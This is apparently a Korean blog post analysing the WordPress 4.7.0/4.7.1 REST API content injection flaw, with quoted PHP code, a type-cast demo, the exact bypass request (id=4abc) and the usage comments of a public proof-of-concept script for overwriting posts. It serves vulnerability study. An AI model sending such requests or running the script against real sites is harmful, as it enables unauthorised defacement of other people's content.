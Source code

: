 ```php
}
```

사용자가 게시물 수정 요청을 보내면 해당 게시물에 대한 권한을 체크하기 위해 update_item_permissions_check 함수를 콜백하게 됩니다. 

공격자가 ./wp-json/wp/v2/posts/4?id=4abc와 같이 요청을 보내는 경우 4abc에 해당하는 게시물이 없어 권한체크를 하는 if문을 벗어나 return true결과를 나타내어 권한체크 로직을 우회할 수 있습니다.

```php
public function update_item( $request ) {
    $id   = (int) $request['id'];
    …
```

매개변수로 전달되는 $request의 id 값을 int형으로 형변환(Cascading)을 하는 부분이 있는데, $request[‘id’]의 값 중 숫자이외에 문자, 문자열이 포함되는 경우 삭제가 됩니다. 이는 PHP의 형변환 규칙으로 인해 문자열을 정수형으로 형변환 시 문자가 나오는 지점부터 데이터가 손실이 발생하게 됩니다. 
 
간단하게 PHP 문자열 데이터를 정수형으로 형변환하는 코드와 그 결과를 아래의 코드와 그림으로 결과를 알아볼 수 있습니다.
```php
<?php
$test = "4abc";
 
$modify_test = (int)$test;
 
echo $modify_test."\n";
?>
```

<figure>
  <img data-action="zoom" src='{{ "/assets/images/web/0x01_4.png" | relative_url }}'>
  <figcaption><center>[그림 1-4]
  PHP 정수형 형변환 테스트
</center></figcaption>
</figure>
<br>

서버IP/index.php/wp-json/wp-v2/posts/4?id=4abc와 같이 요청을 하게 되면 게시물 수정 권한 체크 부분에서는 존재하지 않는 게시물이기에 권한체크로직을 우회하고, 바로 다음 콜랙 함수인 update_item 함수에서는 정수형으로 형변환이 일어나 4의 게시물을 변경하는 작업을 수행하게 됩니다.

다음은 해당 privilege Escalation / Content Injection 취약점의 POC(Proof of Concept) 코드입니다.
```python
# 2017 - @leonjza
#
# Wordpress 4.7.0/4.7.1 Unauthenticated Content Injection PoC
# Full bug description: https://blog.sucuri.net/2017/02/content-injection-vulnerability-wordpress-rest-api.html
# Usage example:
#
# List available posts:
#
# $ python inject.py http://localhost:8070/
# * Discovering API Endpoint
# * API lives at: http://localhost:8070/wp-json/
# * Getting available posts
#  - Post ID: 1, Title: test, Url: http://localhost:8070/archives/1
#
# Update post with content from a file:
#
# $ cat content
# foo
#
# $ python inject.py http://localhost:8070/ 1 content
# * Discovering API Endpoint
# * API lives at: http://localhost:8070/wp-json/
# * Updating post 1
# * Post updated. Check it out at http://localhost:8070/archives/1
# * Update complete!
```